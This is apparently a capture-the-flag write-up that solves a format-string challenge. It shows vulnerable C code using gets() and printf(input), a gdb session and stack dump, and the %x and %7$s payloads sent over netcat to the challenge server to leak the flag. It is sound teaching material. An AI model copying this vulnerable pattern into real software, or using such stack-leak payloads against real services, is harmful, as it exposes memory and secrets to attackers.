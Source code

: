 # FormatS

### Points: 300
---

**Description:**
```txt
The flag's located somewhere in the binary. Can you find it?[

nc cyberyoddha.baycyber.net 10005

- Haskell#1426
```

---

In this challenge we are given two files, a binary and its source code.

Taking a look at the source code, we can see that it is very simple. It reads input from stdin
and prints it back to you. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main ()
{
	char *input;
	char *flag = "REDACTED!";

	gets(input);
	printf(input);

	return 0;
 
}
```

The fatal flaw in this however, is that the **printf(input)** doesn't have any format specifiers leaving this program vulnerable potentially allowing us to see what is in the flag.

Lets run the program using gdb, check the disassembly of the main function and set up a breakpoint at the address of the gets() call.

```bash
$ gdb ./formats
```

Disassemble main
```bash
gef➤  disassemble main
Dump of assembler code for function main:
   0x08049172 <+0>:	lea    ecx,[esp+0x4]
   0x08049176 <+4>:	and    esp,0xfffffff0
   0x08049179 <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804917c <+10>:	push   ebp
   0x0804917d <+11>:	mov    ebp,esp
   0x0804917f <+13>:	push   ebx
   0x08049180 <+14>:	push   ecx
   0x08049181 <+15>:	sub    esp,0x10
   0x08049184 <+18>:	call   0x80490b0 <__x86.get_pc_thunk.bx>
   0x08049189 <+23>:	add    ebx,0x2e77
   0x0804918f <+29>:	lea    eax,[ebx-0x1ff8]
   0x08049195 <+35>:	mov    DWORD PTR [ebp-0xc],eax
   0x08049198 <+38>:	sub    esp,0xc
   0x0804919b <+41>:	push   DWORD PTR [ebp-0x10]
   0x0804919e <+44>:	call   0x8049040 <gets@plt>
   0x080491a3 <+49>:	add    esp,0x10
   0x080491a6 <+52>:	sub    esp,0xc
   0x080491a9 <+55>:	push   DWORD PTR [ebp-0x10]
   0x080491ac <+58>:	call   0x8049030 <printf@plt>
   0x080491b1 <+63>:	add    esp,0x10
   0x080491b4 <+66>:	mov    eax,0x0
   0x080491b9 <+71>:	lea    esp,[ebp-0x8]
   0x080491bc <+74>:	pop    ecx
   0x080491bd <+75>:	pop    ebx
   0x080491be <+76>:	pop    ebp
   0x080491bf <+77>:	lea    esp,[ecx-0x4]
   0x080491c2 <+80>:	ret    
End of assembler dump.
```

Set Breakpoint
```bash
gef➤  break *0x0804919e
Breakpoint 1 at 0x80491ac: file formats.c, line 11.
```

Run program
```bash
gef➤  run
```

At this point, the program will start running and hit the breakpoint right before a user can input anything.


If we examine the stack we can see the address of the flag
```bash
──────────────────────────────────────────────────────────────────────── stack ────
0xffffd960│+0x0000: 0xffffda4c  →  0xffffdc01  →  "SHELL=/bin/bash"	 ← $esp
0xffffd964│+0x0004: 0xffffffff
0xffffd968│+0x0008: 0x01010101
0xffffd96c│+0x000c: 0x08049189  →  <main+23> add ebx, 0x2e77
0xffffd970│+0x0010: 0x00000001
0xffffd974│+0x0014: 0xffffda44  →  0xffffdbaa  →  "..."
0xffffd978│+0x0018: 0xffffda4c  →  0xffffdc01  →  "SHELL=/bin/bash"
0xffffd97c│+0x001c: 0x0804a008  →  "REDACTED!"
```
Which is 0x0804a008 and points to the string: "REDACTED!"

--- 

Now that we have that valuable information, we can use the format string vulnerability to leak information from the stack. 

If we run the program normally, and input a format string specifier, such as, **%x** to print hex values, we can see information that would not be shown otherwise. 

Lets run the program and enter **%x:** muliple times to see if we can find the address that holds the flag.
```bash
$ ./formats 
%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:
```
```bash
ffffffff:1010101:8049189:1:fffec6a4:fffec6ac:804a008:fffec600:0:0:
```
From the output, we can see that the 7th address leaked is the address of the flag

If we run the program again and use **%7$s**, we can see the actual value of that address 
```bash
$ ./formats 
%7$s
```
```bash
REDACTED!
```

---

Now just run this on the actual challenge to get the flag!

```bash
$ nc cyberyoddha.baycyber.net 10005
%7$s
```
```bash
cyctf{3xpl0!t_th3_f0rm@t_str!ng}
```